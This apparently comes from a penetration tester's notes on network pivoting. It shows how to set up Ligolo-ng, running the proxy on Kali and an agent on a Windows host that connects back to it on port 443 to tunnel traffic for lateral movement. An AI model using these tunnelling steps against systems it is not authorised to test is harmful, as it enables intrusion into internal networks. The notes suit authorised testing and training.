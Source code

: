 #pivoting #lateral-movement
# Check if your tunnel/port forward is active and running:

## Command line:
- netstat -nao
- route print
- netsh interface portproxy show all

## PowerShell
- Get-NetIPConfiguration
- Test-Connection -ComputerName <remote_ip_or_hostname> -Source <tunnel_interface_ip>
# Tools for Creating a Port Forward or Tunnel on Windows:

# Ligolo-ng

## Step 1: Download Ligolo-ng
1. Go to the [Ligolo-ng releases page](https://github.com/tnpitsecurity/ligolo-ng/releases).
2. Download the appropriate version for Windows (e.g., `ligolo-ng-agent-windows-amd64.exe` and `ligolo-ng_proxy_X.X-alpha_windows_amd64.zip`).
3. If we are running the ligolo proxy on kali linux we can pull it from the Kali Repo:
```
sudo apt install ligolo-ng
```
4. Download the Wintun driver (https://www.wintun.net/) and place the wintun.dll in the same folder as Ligolo (make sure you use the right architecture).
## Step 2: Set Up the Ligolo-ng Proxy Server
1. Create a tunnel interface: 
```
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip route add 172.21.0.0/24 dev ligolo
sudo ip link set ligolo up
```

For newer versions >= v0.6 we can use interface_create command to have ligolo create a new interface for us. 
## Step 3: Starting the ligolo-ng proxy server
1. In Kali Linux: 
```
$ ligolo-proxy -h # Help options
$ ligolo-proxy -autocert # Automatically request LetsEncrypt certificates
$ ligolo-proxy -selfcert -laddr 0.0.0.0:443 # Use self-signed certificates with custom local address and port
```

## Step 4: Initialize Ligolo agent on Windows: 
1. Place the downloaded `ligolo-ng-agent-windows-amd64.exe` executable on your Windows machine.
2. Open Command Prompt or PowerShell.
3. Run the Ligolo-ng agent with the following command:
```
ligolo-ng-agent-windows-amd64.exe -connect 172.21.0.0:443
ligolo-ng-agent-windows-amd64.exe -connect 172.21.0.0:443 -ignore-cert # This is dangerous!
```
4. Once the agent is running you should see a notification from the proxy: 
```
INFO[0104] Agent joined. name=afsimmons@ntworkstation remote="XX.XX.XX.XX:36000"
```